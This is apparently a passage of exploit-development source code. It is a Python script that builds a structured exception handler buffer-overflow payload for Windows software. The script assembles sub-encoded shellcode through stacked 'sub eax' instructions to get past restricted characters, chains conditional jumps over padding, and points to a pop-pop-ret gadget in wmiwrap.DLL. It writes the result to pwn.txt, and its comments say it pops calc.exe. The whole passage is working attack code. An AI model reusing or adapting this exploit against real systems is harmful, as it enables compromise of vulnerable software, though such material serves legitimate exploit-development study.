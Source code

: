 ```console
shellcode += "\x2d\x4a\x19\x14\x24"     # sub eax, 0x2414194A (was 40 at the end, but a miscalc happened. Changed to 4A)
shellcode += "\x50" # push eax

# 3rd line = 34313635 34313434 34313434
shellcode += zero
shellcode += "\x2d\x35\x36\x31\x34" # sub eax, 0x34313635
shellcode += "\x2d\x34\x34\x31\x34" # sub eax, 0x34313434
shellcode += "\x2d\x34\x34\x31\x34" # sub eax, 0x34313434
shellcode += "\x50" # push eax

# 4th line = 323A1245 323A1245 333A1245
shellcode += zero
shellcode += "\x2d\x45\x12\x3a\x32" # sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x32" # sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x33" # sub eax, 0x333A1245
shellcode += "\x50" # push eax

# We need to restore the old ESP value of 0x0012DC98 to spawn calc.exe. Since it is a syscall,
# we need the ESP value before execution. We will do this by performing MOV ECX, ESP (remember ECX contains old ESP!).
# Here are the 3 values: 403F2711 3F3F2711 3F3F2811
move = zero
move += "\x2d\x40\x3f\x27\x11" # sub eax, 0x403F2711
move += "\x2d\x3f\x3f\x27\x11" # sub eax, 0x3F3F2711
move += "\x2d\x3f\x3f\x28\x11" # sub eax, 0x3F3F2811
move += "\x50" # push eax

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e" # JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10" # 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122 # add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e" # JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e" # JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79" # JO or JNO only 121 bytes
payload += "\x41" * 121 # NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += shellcode
payload += move
payload += "\x43" * (5000-len(payload))

f = open('pwn.txt', 'w')
f.write(payload)
f.close()
```
